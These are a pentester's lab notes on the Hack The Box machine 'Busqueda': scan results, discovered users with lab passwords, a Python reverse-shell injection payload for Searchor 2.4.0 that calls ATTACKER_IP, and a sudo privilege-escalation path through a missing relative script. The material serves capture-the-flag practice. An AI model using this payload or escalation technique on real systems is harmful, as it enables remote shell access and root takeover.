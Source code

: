 # Busqueda

| Name      | IP           | Difficulty | OS    |
| ------ | ------------ | ---------- | ----- |
| busqueda | 10.10.11.208 | Easy       | Linux |

## NMAP

| HOST         | PORT | PROTO | SERVICE      | VERSION                 |
| ------------ | ---- | ----- | ------------ | ----------------------- |
| 10.10.11.208 | 22   | tcp   | OpenSSH      | 8.9p1 Ubuntu 3ubuntu0.1 |
| 10.10.11.208 | 80   | tcp   | Apache httpd | 2.4.52                  |


## HEADERS

```
HTTP/1.1 302 Found
Date: Thu, 06 Jul 2023 16:52:28 GMT
Server: Apache/2.4.52 (Ubuntu)
Location: http://searcher.htb/
Content-Type: text/html; charset=iso-8859-1
```

## DIRECTORIES



## USERS

- cody
- svc : jh1usoih2bkjaspwe92 (machine user)
- administrator : yuiu1hoiu4i5ho1uh (gitea admin)



## NOTES

- Searchor 2.4.0
- `', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#`
- sudo -l `(root) /usr/bin/python3 /opt/scripts/system-checkup.py *`
- `full-checkup` returns error
- list all docker instances `sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps`
- inspect them revealing passwords `sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' instanceid`
- in `scripts/system-checkup.py` upon the `full-checkup` command it attempts to run a script `./full-checkup.sh` which does not exist
- create a reverse shell .sh script in `/tmp` and run `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup` with a listener open
